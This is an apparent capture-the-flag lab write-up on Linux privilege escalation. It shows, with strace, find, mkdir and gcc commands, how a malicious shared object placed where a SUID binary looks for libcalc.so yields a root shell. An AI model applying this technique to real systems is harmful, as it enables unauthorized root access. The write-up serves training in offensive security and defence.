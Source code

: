 ```

<br/>

In this task, the `/usr/local/bin/suid-so` SUID executable is vulnerable to shared object injection. Upon executing the file we notice it is `calculating something`, a progress bar advancing to 99% and the program exiting with the message `Done.`:

```
/usr/local/bin/suid-so
```

![image](https://user-images.githubusercontent.com/14150485/172702194-3840343c-d0ff-4d75-b521-75738a22ba75.png)

The `strace` command will help us stack trace all the libraries and files accessed by the executable. Let's run the command with the options provided on the task:

`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

![image](https://user-images.githubusercontent.com/14150485/172703331-10421e49-816f-42e6-b0fc-2d70b7e8b4ce.png)

Apparently, there is a `libcalc.so` file in one of the `/home/user/` subdirectories, however upon attempting to access it the file cannot be found:

```
cat /home/user/.config/libcalc.so
```

![image](https://user-images.githubusercontent.com/14150485/172703772-eaf837b7-4f8c-47ed-880c-28a5e3918280.png)

We can `find` the file in the `/home/user/.config/` folder and make a copy of it to another location:

```
find /home -name 'libcalc*'
```

![image](https://user-images.githubusercontent.com/14150485/172703975-126c8caf-5902-4c86-8867-ce9d684b1bc6.png)

For the purposes of this task we will stick to the instructions and create a new folder:

```
mkdir /home/user/.config 
```

Now we can proceed to create a shared object in the directory the `/usr/local/bin/suid-so` executable was looking in:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Running it again should successfully spawn a root shell for us:

```
/usr/local/bin/suid-so
```

![image](https://user-images.githubusercontent.com/14150485/172704932-929322e5-ac72-46a4-897e-d08269beef91.png)


```